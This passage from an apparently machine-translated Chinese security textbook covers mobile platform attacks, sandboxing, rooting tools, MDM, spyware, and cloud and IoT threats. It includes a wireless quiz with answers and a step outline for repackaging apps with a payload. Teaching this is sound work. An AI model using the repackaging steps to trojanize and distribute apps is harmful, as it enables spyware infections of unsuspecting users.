在下一章中，我们将处理最使用这些网络的平台，即移动平台，以及它们为系统、网络和业务所有带来的安全挑战。对无线网络的知识将帮助我们理解并为这些平台实施专门的网络需求，并帮助我们理解两者在紧密接触的关系。

## 测试你的理解

1. **以下哪不是无线加密标准？**

   1. WEP
   2. WPA2
   3. WPA3
   4. WAP

2. **WPA3 使用以下哪种加密密钥变体？**

   1. 192 bit
   2. 256 bit
   3. 128 bit
   4. 156 bit

3. **巡网 指？**

   1. 攻击者驾驶攻击车辆驶过路障。
   2. 攻击者驾驶车辆在某区域行驶寻找网络。
   3. 受害者在发现攻击者热点后离开。
   4. 以上都不是

4. **以下哪种 Wi-Fi 模式用于监控无线流量？**

   1. Ad-hoc
   2. Monitor
   3. Master
   4. Managed

5. **无线安全中针对非企业解决方案实现了两种认证方案。这些是基于预共享密钥的认证和：**

   1. 基于密钥密钥的认证
   2. 开放认证
   3. 基于私钥的认证
   4. 混合认证

## 答案

1. d
2. a
3. b
4. b
5. b

# 第 14 章：攻击移动平台

## 引言

移动平台已进化为信息管道不可或缺的一部分。手机、平板电脑、笔记本电脑以及最近的物联网传感器等设备产生了一个整个设备生态系统，提供了增强的移动性和便利性，导致技术和服务的采用范围不再局限于桌面电脑和工作站。

## 结构

我们将在本章中涵盖以下主题：

* 移动平台基础
* 移动平台中的攻击向量
* 应用沙盒
* 移动设备的越狱和 root 权限获取
* BYOD 策略及相关风险

## 目标

在本章中，我们将理解移动平台在日常通信中的重要性及其相关风险。读者将熟悉主要移动操作系统的体系、设备管理流程以及这些平台上的攻击向量。本章还将涉及沙盒和设备 root 等概念，并提供有关如何有效保护移动设备免受攻击的指南。

## 移动平台格局

移动设备在过去十年中经历了现象级的增长，并继续以无数种方式改变社会。截至 2019 年，移动网络流量占全球总流量的 52.6%，同一时期智能手机用户为 35 亿，并预计到 2023 年将增长到 43 亿。相比之下，2012 年只有 10.6 亿移动用户。全球用户使用智能手机、平板电脑和功能手机等移动设备进行从纯社交通信到游戏、购物、研究等的活动。访问的便利性结合不断增长和改进的移动互联网基础设施推向了这一繁荣。


随着这种快速的普及，针对移动平台的攻击也随之激增，攻击者比以往任何时候都更加重视这些平台，并创造性地破解传统的安全功能。由于移动设备比传统桌面电脑更具个人色彩，使得攻击者目标移动设备变得更有可图。

移动设备的核心是为这些设备提供易于访问并启用软件应用（称为移动应用）执行的平台，即移动操作系统。与传统计算设备一样，移动设备在操作系统方面有很多选择，大部分市场份额由 Android 和 iOS 共享，以及一些少数份额者如 Windows Mobile OS 和 Blackberry。还有相当其他移动操作系统，但由于市场份额微不足道，不值得专门提及。在实际操作中，我们本章将关注主要的移动操作系统。

# 移动平台中的攻击向量

在深入探讨移动平台的架构细节之前，让我们先尝试了解这些平台上的设备所承载的用户存在、数据和个人属性的规模。如今，一部智能手机会处理与用户公共活动、社交交互、地理位置信息、金融交易、多个服务的凭据等相关的数据。由于这么多信息集中在一个设备上，它往往成为黑客最青爱的攻击目标。要访问设备上的数据或直接获取整个设备，有许多可能性，范围从传统的网络渗透到更复杂的移动应用程序漏洞，再到直接设备盗窃。


**图 14.1：** 移动平台触点

移动平台攻击的几个重要向量包括：

* **移动应用程序**是移动平台不可分割的方面。随着每个服务提供者竞相推出其服务的应用，以及平台充斥着高强度、能引发多巴胺的游戏，移动应用程序创造了属于自己的利基市场。移动应用程序受关注的问题有三个方面：

    1. **开发不安全**通常是追求更快速上市策略或纯疏忽的产物。它导致了测试不当、数据库不安全、发布版本存在漏洞，甚至使用了可能为黑客提供后门的不安全库。
    2. **体验优于安全**，开发者或企业会意识地选择在安全方面走捷径，以确保更顺畅的用户体验。一个在注册时未实现一次性密码验证以避免用户流失的产品，就是这种情况的典型例子。
    3. **冒充型应用程序**以提供服务的幌子隐藏其真实目的的应用随处不在。由于用户受到免费工具和服务的诱惑从非官方渠道下载应用程序，这种风险成倍增加。攻击者通过重新封装已知的受信任应用程序并附带恶意负载来进一步利用这一点，这通常会欺骗用户产生虚假的安全感。在后台收集用户数据或以完全间谍软件模式运行的应用都是此类应用程序的示例。

* **消息系统**实现了用户之间的顺畅通信，是官方和个人通信的极佳媒介。但随着智能手机的推出以及多媒体消息结合短链接器和号码掩码，攻击者变得非常容易向目标及普通受众发送钓鱼信息，并获得比电子邮件更高的点击率。这些信息反过来可以用于安装恶意应用程序、捕获数据等。

* **不安全的接入点**（如咖啡馆 Wi-Fi 或公共热点）是黑客的温床。由于用户往往忽视这种风险，他们自愿加入开放网络并落入中间人攻击（MITM）或其他相关攻击。始终开启蓝牙或允许地理位置追踪等习惯会雪上加霜。

* **移动设备盗窃**是设备安全的主要问题之一。由于设备具有移动性且通常只有口袋大小，它们很容易被盗窃和隐藏。随着人士使用移动设备处理官方事务，银行业迅速向移动平台迁移，丢失移动设备可能比简单的身份盗窃严重得多。

理解移动平台的另一个重要方面是，设备通常不仅能访问设备上的信息，还能访问它们所连接的服务。

对于用户来说，这可能导致攻击者获取设备上的个人信息、连接的云服务、应用程序账户等。此外，在办公设备的情况下，还可能导致公司网络泄露，使攻击者访问企业服务器并进行更大的攻击。


**图 14.2：** OWASP 移动前 10 风险

对于移动服务或应用程序提供者来说，风险与不安全的 Web 或服务器应用程序的情况没有太大区别。移动应用程序架构通常没有经过深入思考，这一点进一步加剧了风险，特别是在与服务器交互方面，因为大部分带宽都投入到了业务场景和用户体验设计中。

在继续讨论移动平台的攻击之前，让我们学习一些关于主要移动操作系统的基础及其工作原理。

## Android OS 架构

Android OS 是基于 Linux 内核的开源框架。该操作系统可以分为以下五个主要组件或层：

1. **Linux 内核**是架构中最基础、最的一层。它提供了进程、内存和设备管理、核心安全、多任务处理、设备交互等功能。
2. **库**主要用 C/C++ 编写，用于硬件交互。
3. **Android 运行时**类似于 Java 运行时。它包含 Dalvik 虚拟机或 `DVM`，执行电源管理、设备优化和性能等基本操作。
4. **应用程序框架**是构建在 Android 运行时之上的层，提供用于与设备和核心操作系统功能交互的 API。Android **硬件抽象层** (`HAL`) 也位于应用程序框架中，提供对硬件设备驱动程序的访问。应用程序框架提供的一些服务包括：

    1. 活动管理器
    2. 窗口管理器
    3. 视图系统
    4. 包管理器
    5. 电话管理器
    6. 资源管理器
    7. 通知管理器
    8. 位置管理器


**图 14.3：** Android OS 架构层

5. **应用程序**构成了 Android 架构的顶层，包括核心操作系统以及第三方应用。每个应用都在内核自己的沙箱中，无法与其他应用程序或其他文件交互。

 **Android 沙箱**是指 Android 提供的一种特性，确保运行在设备上的应用程序无法访问设备上安装的其他应用程序。这也扩展到了应用程序的数据和其他交互。

Android 沙箱实现在基于 Linux 用户保护之上，每个应用程序都运行在自己的进程中。因此，即使应用程序尝试访问其范围之外的资源，内核也会拒绝该操作，因为应用程序没有访问另一个应用程序的相应权限。

 `iOS Sandboxing` 与 Android 沙箱机制非常相似，它确保所有第三方应用都处于“沙箱”中，这意味着它们无法访问其他应用保存的文件，无法对系统进行更改。沙箱机制防止应用程序访问或修改由其他应用存储的数据。每个应用都有自己的独立目录，该目录在安装时随机分配。OS 分区被挂载为只读，大多数应用程序以受限权限用户的身份运行。

需要访问其他应用数据的应用程序，将通过操作系统本身提供的受控服务来获得相应权限。

### 3. `Media Service layer` 赋予 iOS 访问音频、视频、动画和图形的权限。媒体层包含了多种用于构建 iPhone 的框架。

1. `UIKit` 图形
2. `Core graphics framework`
3. `Core animation`
4. `Core images`
5. `OpenGL ES` 和 `GLKit`
6. `Metal`

### 4. `Core Services layer` 为上层架构的构建提供了基础框架。提供的一些框架如下：

1. `Address Book framework`
2. `Cloud kit framework`
3. `Core foundation framework`
4. `Core location framework`
5. `Core motion framework`
6. `Healthkit framework`
7. `Homekit framework`
8. `Social framework`
9. `StoreKit framework`

### 5. `Core OS layer` 直接与硬件交互，并提供核心设备服务，如内存管理、文件系统、优化等。一些核心 iOS 框架包括：

1. `Core Bluetooth framework`
2. `External accessory framework`
3. `Accelerate framework`
4. `Network access framework`
5. `Security services framework`
6. `Local authentication framework`

# 移动设备的越狱/Root

我们已经看到 Android 和 iOS 在多个关卡限制第三方应用程序访问设备信息和其他应用的数据。出于安全和隐私考虑，对于所有移动操作系统都是如此。

这些限制的另一个方面是，设备所有者大多数时候无法充分利用设备的硬件能力。制造商提供的操作系统往往倾向于符合消费者所支付的价格位功能。操作系统和关卡进一步防止了设备所有者挖掘设备或外设的原始性能，这通常是因为性能优化问题，而很少是因为营销和产品增强计划。

要执行设备级操作，用户通常需要在设备操作系统模块中获得最高级别的权限，而不是消费者用户权限，这类似于我们之前之前介绍过的权限提升。但与在标准操作系统中获取 root 权限不同，尽管在世界大部分地区这并不违法（最好检查当地法律），但对设备进行越狱或 Root 通常会导致制造商和服务提供商的设备保修失效。尽管越狱或 Root 可能会让你获得更高的权限，但设备本身的性能会下降，更容易受到更强大的恶意软件攻击，并可能导致设备完全变砖。


**图 14.5:** 越狱/Root 过程

虽然听起来非常极客且技术化，但由于所有主要平台上都有现成的自动化过程的工具，现在对设备进行越狱/Root 相对简单。随着制造商发布预防性补丁，这些工具会随之升级。

## Android Root 工具

* `Root Master`
* `Framaroot`
* `Firmware.mobi`
* `BaiduRoot`
* `One Click Root`
* `Kingo Andoird Root`
* `SuperOneClick`

## iOS 越狱工具

* `Checkra1n`
* `Pangu`
* `Unc0ver`
* `Absinthe`
* `Chimera`
* `Electra`
* `GeekSn0w`


**图 14.6:** `Root Master` 和 `GeekSn0w`

# 移动应用重打包


**图 14.7:** 移动应用重打包

攻击者向移动设备输送载荷的最简单方法是通过重打包的应用。由于许多移动用户不知道不可信来源的可能性，并且想要具有相同质量和支持的付费软件免费替代品，这种便利性进一步增加了。这给了攻击者一个机会，诱骗用户下载看似有用且无害的应用的恶意版本。这种情况类似于电影种子，用户愿意免费下载电影文件，但往往不知道其背后的风险。

应用重打包通常具有以下流程：

* **获取原始应用**，通常来自应用商店等原始分发点。

  

  **图 14.8:** Android `APKTool`

* **反向工程和反编译**应用，使用 `apktool` 等工具获取源代码。
* **将载荷编码**到原始源代码中。
* **编译**新代码。
* 使用 `jarsigner` 等工具对新代码进行**签名**。
* 通过直接下载链接、论坛或第三方应用商店等渠道将重打包的应用**分发**给用户。

重打包的应用可以包含各种恶意载荷，包括键盘记录器、Cookie 窃取器、后门和间谍软件，其优点是用户通常不知道被感染。

## 移动设备管理

与传统设备一样，移动设备需要定期升级、维护和打补丁以维持设备和整个网络的完整性。这在移动设备日益加入的企业网络至关重要。这产生了对移动设备和网络进行远程管理的需求，无论是公司拥有的还是来自**自带设备** (**BYOD**) 结构。移动设备管理基础设施的主要目标包括：

* 远程更新移动设备上的安全策略
* 远程触发补丁安装
* 远程软件安装
* 在发生盗窃或安全威胁时远程锁定并擦除设备
* 设备审计

为了理解有效的移动设备管理系统的需求，让我们从企业移动管理员的角度来看这个问题。网络提供了对各种设备的访问，这些设备主要是移动设备，包括笔记本电脑、平板电脑、手机等。各种版本的操作系统（尤其是 Android）以及制造商层面的硬件的多样性进一步增加了复杂性。随之的是用户活动，例如将设备用于个人目的，这可能构成也可能不构成安全风险。这些可能包括在此类设备上访问私有电子邮件（这些邮件可能是钓鱼攻击的目标），或将设备连接到不安全的网络。所有这些风险都叠加在已有的企业破坏和安全风险之上。

要从大规模有效解决问题，不能完全依赖设备用户采取所有纠正措施。让每个用户每隔一天检查一次设备安全审计和扫描也是不可行的，IT 团队执行这些检查也是不可行的。因此，MDM 解决方案旨在根据系统管理员设置的规则自动执行这些任务，管理员定义通用的安全策略，有时针对特定的设备组。

一些广泛使用的移动设备管理工具包括：

* `SOTI MobiControl`
* `VMware Air Watch`
* `Citrix XenMobile`
* `IBM MaaS360`

# 移动间谍软件与隐私担忧

需要特别提到移动间谍软件，因为与其他设备相比，移动设备通常更具个人色彩。在目标移动设备上成功植入间谍软件可以向攻击者暴露巨大的信息库。至关重要的一点是，理解智能手机远不仅仅是一个通信设备。它可以拍照、录制音视频、查找精确的地理位置、检测运动等许多功能。结合这些软件工具，你就获得了一部能够入侵你的账户、文件、预约、旅行历史、旅行计划、网络信息等的机器。

高级技术使得通过信号强度和网络可用性来绘制你的位置成为可能。

将此设备连接到企业网络，将开启一个全新的漏洞世界。在这一阶段，可能性是无限的。

与此略有不同的是跟踪软件应用，它们是消费级的间谍软件。它们被用于监控员工或跟踪儿童的在线活动等目的，本质上是在处于法律边缘的框架内运行相同的概念。这些应用程序及其基础设施往往成为攻击者的软目标，他们试图快速获取其服务器中易手的数据。


**图 14.9：** 移动间谍软件目标

一种更扭曲的间谍软件形式是那些欺骗客户接受隐私政策的应用，这些政策对于普通用户来说模糊或复杂。通过`device location`和`file storage`等通用权限头部，用户几乎无法理解被抽走的信息以及根据这些信息得出的推理。由于在分析和数据科学领域投入了大量的研究和资金，应用所有者大多数时候都不希望让任何一次点击脱钩。结果是大量的数据和信息被收集到服务器中，而这些服务器反过来可能未得到充分的保护。

数据收割组织倾向于以游戏、社交互动等形式发布带有真实目的的应用，以触达移动设备并收集尽可能的数据。在数字时代，数据已成为新的货币，这些活动呈指数级增长，而消费者教育仍远远落后。

# 移动设备和平台安全指南

### 作为设备用户：

1. 仅安装所需的应用程序，并卸载长时间未使用的应用程序。
2. 不要从不可信任的源安装应用程序。
3. 默认关闭蓝牙和 Wi-Fi 连接。
4. 不要连接到不可信任或开放的网络。
5. 如有必要连接到开放网络，请为机密任务使用 VPN。
6. 通常没有必要向应用程序授予所有权限。仅授予应用必要的权限。检查其工作是否真的需要地理位置和文件系统访问等权限，以及你是否愿意与应用所有者共享这些细节。
7. 为你的设备启用至少一种锁定机制，如密码、指纹或图案锁。
8. 使用硬件加密保护你的存储空间。所有主流设备通常都支持此功能。
9. 不要对用于个人或官方用途的设备进行 root 或越狱。
10. 启用设备的远程查找和远程擦除功能。

### 作为管理员：

1. 确保所有设备都已更新到最新版本。
2. 确保已知的漏洞得到解决。
3. 定期审计所有设备。
4. 实施`User Behavior Analysis`（`UBA`）工具来检测异常。
5. 维持`Security Operations Centre`（`SOC`）。

## 结论

移动平台在安全和隐私方面面临着独特的挑战，尤其是当其本质上具有个人属性时。凭借你在本章及之前章节中学到的知识，我们将在下一章中深入探讨云和物联网。

在本章中，我们将分析云和物联网平台在安全方面面临的挑战，从最基础的层面到最稳健的企业级架构。为了做到这一点，我们将从云和物联网系统的基本概念和架构、它们对现有基础设施的适配、弱点以及漏洞利用开始。此外，我们还将触及虚拟化和容器概念，这些概念构成了此类结构在大规模运行下的骨干。

# 云计算

云计算也许是软件行业最流行的术语之一，它指的是通过互联网提供资源的网络。从粗俗地说，云是一组位于远程的服务器集群，由云服务提供者收取费用并管理。应用程序在云中充当“租户”，而应用程序所有者不再需要为应用程序设置或维护基础设施。


**图 15.1:** 云计算

因此，对于企业而言，与传统做法相比，云计算提供了以下主要优势：

* 基础设施的搭建和维护操作由云提供者而非组织管理。这使得企业能够从维护复杂运营硬件的烦恼中解放出来。
* 可用性由云服务提供者通过强大的低延迟机制提供保障。该服务独立于单点故障，且通常分布在多个位置。
* 扩容和缩容对于云服务来说通常不是问题，大多数云提供者都提供了按需扩展的选项。这减少了成本，以及由于资源瓶颈导致的停机时间。

大多数云服务提供者还提供许多附加服务，如报告、分析、消息平台等。这些服务可以轻松地与平台上的应用程序集成，从而缩短应用程序的上市时间并提高应用栈的统一性。

# 云基础设施


**图 15.2:** 云基础设施分级结构


从简单的形式来说，云是硬件层及其控制软件和应用程序，暴露在各个级别，以满足各种需求。云基础设施的核心由以服务器、数据中心和网络连接形式呈现的物理组件组成。数据中心通常分布在多个地理位置，以实现分布式冗余并降低不同位置之间的延迟。

在硬件之上是计算基础设施。这些包含了虚拟化解决方案，可以帮助为不同的需求隔离并管理资源。这构成了云的`基础设施即服务`（`IaaS`）部分，容器可以直接租给客户，作为他们自己的基础设施并在其基础上构建。

`IaaS` 之上的平台和存储层构成了`平台即服务`（`PaaS`）层，为客户提供应用程序服务器和存储平台。

云的顶层由云提供者提供的应用程序和服务组成，可以方便地集成或独立使用。这一层构成了云的`软件即服务`（`SaaS`）部分。云提供者通常使用这一层为其客户提供增值服务，如通知服务、可用功能、Web 服务等。

云能够在同一基础设施上无缝提供所有三种服务模型的能力，使其成为一个独特的配置，并与传统的分布式计算解决方案区分开来。

# 云部署模型

云部署模型决定了云服务如何提供以及向谁提供。云部署模型有相当几种：

1. 公有云：云服务通过网络供公众使用的环境，后者（用户）对基础设施的位置没有控制权。
2. 私有云：部署在企业在用法和安全方面需要更受控的环境的地方。私有云通常由单个企业为内部目的而委托。

   

   **图 15.3:** 云部署模型

3. 混合云：当组织计划将其机数据保留在私有云中，但允许某些服务与公有云交互时，混合云就出现了。
4. 社区云：配置为一组协作工作的特定客户服务。这种部署模型对于在同一套法规或治理下工作的组织特别有用，例如针对特定国家或地区的合规性要求。这种部署可以由参与租户内部管理，也可以由第三方供应商管理。

# 虚拟化

云提供者和租户面临的一个主要问题是资源利用不足。作为租户，企业希望利用其所付费的所有资源。另一方面，云提供者希望其所有硬件都能得到优化利用。


**图 15.4:** 物理机与虚拟机

该问题的解决方案是通过虚拟化实践提供的，虚拟化通过将计算环境的物理资源抽象为逻辑资源来工作。因此，单台物理机器就可以托管多个逻辑机器，每个机器都在其自身的逻辑边界或容器内运行。这些中的每一个都具有独立工作的能力，拥有它们自己的操作系统和软件。

这种环境允许云提供者将虚拟机分配给租户，而不是物理机器。这在较低成本下实现了更高的冗余。物理机器最终也以最大容量被使用，因为它们是以较小的区块形式提供的，而不是一台庞大的机器。

对于云租户来说，不需要租赁整台机器，而是根据其需求租赁虚拟机。机器可以根据需求按需启动所需的计算能力。这为组织在计算支出方面节省了大量成本。

这里有一个重要的一点是，虚拟化并不局限于完整的虚拟机，而可以在不同级别进行。

**硬件虚拟化**在机器硬件级别进行，以便在最基础的层面对硬件资源进行划分和监控。

**操作系统虚拟化**通过在宿主机操作系统上安装虚拟化平台来实现，而不是在硬件上。

**服务器虚拟化**通过直接在服务器机器上安装虚拟化解决方案，将服务器机器划分为较小的服务器实例。

**存储虚拟化**旨在通过网络组合多个存储设备，以提供一个虚拟上巨大的单一存储。

**网络虚拟化**旨在在多个网络上提供一个单一管理的虚拟网络，或在单个物理网络上提供多个虚拟网络。

`VMWare`、`Oracle VM`、`ESXi`、`Hyper-V`和`vSphere`是市场上一些流行的虚拟化提供者。

# 容器

容器在涉及云计算部署应用程序时是一个重要概念。容器是操作系统的一种虚拟化形式，它可以隔离内部运行的进程并访问系统资源。这使得运行在同一个操作系统上的多个应用程序能够相互隔离。对于需要安全或专用资源的应用程序，这种方法特别有用。隔离还能帮助运行在容器中的应用程序免受资源占用和死锁的影响。


**图 15.5:** 虚拟化 vs 容器

`Docker`、`AWS Fargate`、`Amazon ECS`、`Portainer` 是一些流行的解决方案。容器通常不是单独部署的，为了管理部署和其他周期事件，企业使用 `Kubernetes` 和 `Portainer`。

# NIST 云计算参考架构

NIST 云计算参考架构定义了云实体及其交互的基本模型。它定义了云交易中的五大主要参与者：

* 云提供商
* 云经纪人
* 云载体
* 云消费者
* 云审计员


**图 15.6:** 云计算

# 云计算威胁

在深入探讨云环境面临的威胁之前，一个重要的方面是理解：云上运行的应用程序在技术栈和环境上与本地部署的应用程序大同小异。部署环境的变化包括封装和网络交互。所有这些对于本地部署的应用程序的威胁仍然有效。这意味着云应用程序的威胁向量主要类似于基础设施和网络层面的本地应用程序。我们将涵盖利用云的会话劫持等攻击向量。

让我们首先了解一旦云基础设施引入了哪些特殊威胁：

1. **数据隐私和保护**是任何应用程序或企业的首要关注问题。随着数据不再存储在受保护的本地服务器上，风险会增加。在公云部署中，这可能是一个重大问题，因为企业或应用程序对数据位置或保护策略没有控制权。进一步放大这一担忧的是云存储层的漏洞会影响托管在云上的多个应用程序。
2. **服务滥用**发生在由于缺乏治理或审查，攻击者滥用云服务来托管钓鱼网站、僵尸网络或库。由于云服务的性质和随处可见的插件，黑客变得很容易在保持匿名的情况下执行这些活动。
3. **应用程序安全不足**也是由于对云基础设施或部署解决方案理解不当或不足等因素导致的云部署周围的一个主要关注问题。这经常让开发者和管理员产生虚假的安全感。一个非常常见的例子是开发者将数据库开放供互联网访问，假设服务器的 IP 很难被破解，从而成为勒索攻击的软目标。

**勒索攻击**是专门设计的攻击，攻击者获取对目标系统数据的控制，并使用加密函数进行加密，加密密钥仅攻击者已知。这有效地将系统所有者锁定在系统之外。为了解密数据或交换密钥，黑客通常以加密货币的形式索要钱。

勒索攻击大多是时间性的，攻击者威胁在固定时间过期删除数据，以营造紧迫感并确保没有破解数据的暴力破解尝试。

`WannaCry`、`Locky`、`Jigsaw` 是一些击中全球系统的勒索软件。

# 云攻击向量

如前所述，云环境由于整体架构和使用引入了其自身的威胁。攻击向量也是如此，云应用程序继承了来自 Web 和服务器应用程序栈的大部分攻击向量，然后由于云为攻击者提供的独特攻击面，产生了自己的攻击向量。我们将这些向量分为以下四个特殊类别：

1. 云上的 **DOS/DDOS 攻击**可以针对单个应用程序或整个云提供商。在云上，这可能再次指向云的特定层，如 `IaaS`、`PaaS` 或 `SaaS`。在云平台上执行拒绝服务通常很困难，涉及攻击者在多个系统上部署僵尸网络以参与分布式攻击。这里应用程序所有者关注的一个主要领域是自动伸缩功能。一次 DOS/DDOS 攻击可能会触发云资源的自动伸缩并增加基础设施成本，使攻击变得有效得多。
2. **恶意软件注入**用于欺骗云服务用户与仿冒服务进行交互。这是通过在基础设施、平台或实例级注入恶意软件并绕过安全检查来实现的。`DNS` 层攻击也被用于辅助这些攻击。
3. **跨云攻击**发生在攻击者能够识别从公有云到私有云或本地基础设施的数据连接或移动。这通常发生在企业或应用程序所有者使用混合部署模型或使用跨云通信的解决方案时。例如，位于企业设施的开发者与云服务器栈进行监控或文件上传交互，导致企业网络与云服务器之间建立了连接。攻击者可以使用此通道将恶意软件从云传输到本地基础设施。
4. **侧信道攻击**旨在获取云服务部署架构的内部知识，以攻击托管在其虚拟环境中的应用程序。攻击者尝试在云服务的等效虚拟机上部署自己的服务，以了解服务器环境或保护服务器的加密函数。这对于想要攻击部署在共享托管上的 Web 应用程序的攻击者来说非常常见。

# 物联网

IoT 或物联网是一种通过网络连接的物理非计算设备系统，设备将各种信息和指标传输到网络中的其他设备或集中化控制中心，旨在为终端用户提供无缝的用户体验。IoT 网络可以非常简单，例如通过应用程序连接到移动设备的冰箱等。这样就可以对这些设备进行远程监控和控制。复杂性更高的是网络，例如联网车辆中的众多传感器。这些传感器向车辆仪表盘以及远程控制中心流传输数据，为车辆性能测量提供数据支持。

更大配置的示例包括在 SCADA 系统级别运行的系统，用于监控和管理大型设施群，甚至是规模更大的设备和传感器集群。


**图 15.7:** IoT 架构

# IoT 架构

IoT 系统根据用例具有不同的配置。系统部署的规模也是如此。然而，从最基础到最复杂的 IoT 系统，有四层共同构成了系统的正常运行：

1. **实体** 是物联网宇宙的核心。这些是连接到网络的设备。IoT 系统中的一个`thing`可以是任何非计算设备，范围从门锁到带有`sensors and controllers`的土方机。传感器负责从设备中收集事件数据。数据随后被发送到控制中心，在那里用于计算系统指标以提供可操作的智能。随后，控制器可以将控制中心生成的动作和事件转换为设备上的实际物理事件。
2. **网关** 位于设备层和系统其余部分之间，将设备事件数据转换为可传输的信号，并将相关数据转发到控制中心，反之亦然。网关的另一个重要方面是维护设备与 IT 基础设施之间所有数据传输的信息安全。
3. **边缘分析** 构成 IoT 基础设施的可选部分，当系统需要对事件进行实时处理时启用。边缘系统放置在靠近设备的地方，通常位于同一网络内以减少网络延迟。这些系统用于在本地处理小批量数据，并根据这些计算提供快速的响应和操作。
4. **数据中心** 构成系统的最后一层，收集所有有意义的事件，并由系统提供存储、处理和分析。有了云技术后，IoT 系统不再需要物理数据中心设置，可以在云服务之上运行，从而优化成本并提供更好的可用性。

# IoT 通信模型

IoT 系统的一个非常重要的方面是设备之间以及与其控制中心之间通信的方式。以下是其中一些通信模型：

* **设备对设备模型**，不同设备通过 `Bluetooth` 等协议直接连接。蓝牙信标与手机交互以提供建筑导航或周边界服务，就是这种通信模型的一个范例。
* **设备到云模型**，设备直接与云服务通信，以原始形式呈现某些信息。这种通信模型的一个常见例子是 CCTV 摄像头通过云服务提供其视频流。
* **设备到网关模型**，设备与网关通信，网关过滤或预处理数据包，然后将其发送到控制或存储中心。监控超速车辆的智能公路系统是这种模型的示例。
* **第三方数据共享模型** 用于设备所有者将 IoT 设备的数据共享给第三方服务，第三方服务反过来通过这些数据提供服务。该模型的应用之一是联网汽车，碰撞检测可以直接警报应急服务。

# IoT 网络的威胁

IoT 网络和其他网络一样，容易受到中间人攻击、拒绝服务等攻击。但对于 IoT 网络来说，最关键的威胁可能如下：

* IoT 环境中连接、通信和交互的**标准化**是一项巨大挑战，考虑到形成它的设备和网络种类多样。增加这种复杂性的是制造商之间的市场竞争，这导致了次标准性和易于利用的漏洞。
* **组件接管** 是攻击者获得访问权限并控制组件或整个网络。由于连接到 IoT 的设备数量巨大，设备接管可能会给网络或客户带来灾难。想象一下，门锁被撬开没有报警，或者引擎报告了错误的磨损指标。
* **信息泄露** 又是 IoT 系统的巨大威胁，因为流经这些系统的信息量巨大。系统中任何数据泄露或泄漏都可能导致大量数据被盗取并用于恶意目的，给服务提供商带来巨大的尴尬并可能引发诉讼。

# IoT 攻击向量

IoT 本质上基于设备、传感器、网关和网络之间易连接的特性。信息流是任何此类网络的核心，维护其无缝通道是一项挑战。同样具有挑战的任务是保护这样一个开放且易于连接的网络。攻击者利用这一事实，针对一个或多个可能的攻击向量。

* 设备或实体通常是 IoT 网络中最容易访问的部分。由于有如此多的配置和架构，保护 IoT 网络上的所有设备是一项艰巨的任务。
* 网络是系统管理员的另一个关注点，因为所有设备都需要通过网络通信，且每个设备配置都使用其自己的连接方式。虽然一个设备可能倾向于通过 `Wi-Fi` 连接，但另一个设备可能通过 `Bluetooth` 连接，而另一个设备可能通过蜂窝网络传输数据。
* 边缘系统可以访问大部分数据进行即时分析。因此，它们是热门目标，因为这些系统通常位于受保护的数据中心之外。
* 提供管理门户以及监控和查看门户的云平台可以像 Web 和应用程序服务器一样被利用，以获取信息和整个系统。
* 第三方系统通常集成到 IoT 系统中用于数据共享和分析。这些系统反过来可以被利用来提取连接和集成信息，从而访问信息或主系统。

# 运营技术与工业物联网

随着自动化和规模的扩大，手动监控大型系统几乎是不可能的。随着仪表板从几个增加到数千个，运营指标变得越来越细致和关键，从手动操作转向使用更具扩展性的运营技术（使用硬件和软件来监控和控制系统、流程和整个基础设施）是一个显而易见的转变。

由于主要存在于资源密集型环境中，OT（运营技术）网络通常不暴露于互联网，因此在安全实施上较为松散。然而，随着移动性的快速兴起和对更强连接需求的增加，这种隔离状态并非总是可以实现的。即使在孤立的网络中，系统的接触点也需要稳健的安全实施，特别是由于这些系统通常控制着从装配线机器人到核反应堆冷却系统等关键功能。

从本质上说，该网络可以被视为一种特殊的 IoT 网络，它依赖于大量的硬件传感器和软件接口来实时收集运行信息，并基于这些输入执行有意义的操作。这些系统的目的始终是管理工业操作，而非行政操作。

`工业控制系统`（`ICS`）是类别上设计的 OT 系统，专门用于电网等需要高可用性和精度的任务关键型系统。

`工业自动化`（`IA`）是 OT 的另一个方面，其中机器人和软件解决方案等系统负责处理流程和机械的运行方面。`过程控制网络`（`PCS`）是用于在 OT 网络之间、机器、软件组件以及测量控制系统之间传输信息和信号的通信层。

`数据采集与监控`（`SCADA`）系统通常用于管理 ICS 系统。这些系统提供了集中化的命令和控制系统，并带有系统的直观图形化表示。SCADA 系统广泛应用于电网管理、智慧城市基础设施、智能高速公路等。


**图 15.8:** 典型 SCADA 系统的组件

这里讨论的系统同步工作，构成了工业物联网的核心。IIoT 的传感器放置在远程处理单元、机器人、交换机等 OT 设备上或附近。

# OT 和 IIoT 攻击向量

OT 攻击向量与 IoT 的攻击向量非常相似。这些包括：

1. 设备上的访问控制不当
2. 不带安全参数的网络接口
3. 缺少网络分段
4. 忽略补丁
5. 不安全的网关
6. 缺乏系统加固

# 云计算、IoT 和 OT 攻击工具

在进入用于云计算和 IoT 攻击的工具之前，有两个非常重要的事实需要强调：

1. 云计算、IoT 和 OT 系统本质上是由 Web 服务器和应用程序服务器的信息系统组成，就像互联网上的其他计算系统一样。
2. 组件通过网络与其他计算设备、机器等与其他组件进行交互。这些网络可以是有线或无线的，并遵循不同的通信协议。

新颖之处在于基础设施的规模、处理能力和分布。对于攻击者来说，攻击传统计算系统与攻击云或 IoT 系统之间的区别将在于导航系统以及更重要的是进入系统内部。因此，我们将讨论的工具将围绕对云系统、IoT 和 OT 系统的侦察展开。

1. **网络搜索引擎**：确切地说，Google 对在线服务器和公开访问的信息有巨大的索引，这些信息主要是由于系统管理员的配置错误或疏忽而处于开放状态的。事实上，Google 黑客攻击是研究人员的一个完整领域，通过 Google 高级搜索选项中提供的特定查询从 Google 索引中提取信息。

   

   **图 15.9:** Google 高级搜索门户

2. **云和 IoT 搜索引擎**：存在专门用于索引云和 IoT 基础设施的特殊搜索引擎。这些引擎有时包含公开的服务器，这些服务器可能不打算供公众访问。其中一些搜索引擎是 `shodan.io`、`thingful.net` 和 `iotcrawler.eu`。

   

   **图 15.10:** Shodan 查询公开的 Elasticsearch 服务器

3. **DNS 查询工具**：DNS 查询工具可以提供关于云服务器域名或 IoT 网络的大量信息。云服务通常要求所有者通过 DNS 记录（主要是 TXT 记录）提供所有权证明，而管理员在验证后往往会保留这些记录。这可以允许攻击者识别集成情况并据此制定攻击计划。

   

   **图 15.11:** DNS 查询工具

4. **网络映射和拦截工具**：用于映射、监控和拦截有线及无线网络的工具在云和 IoT 环境中也用于相同的目的。如 `Nmap`、`Zenmap`、`Netcat`、`Metasploit`、`Nikto` 和 `Burp Suite` 等工具在网络层面被广泛用于攻击云和 IoT 系统。

# 结论

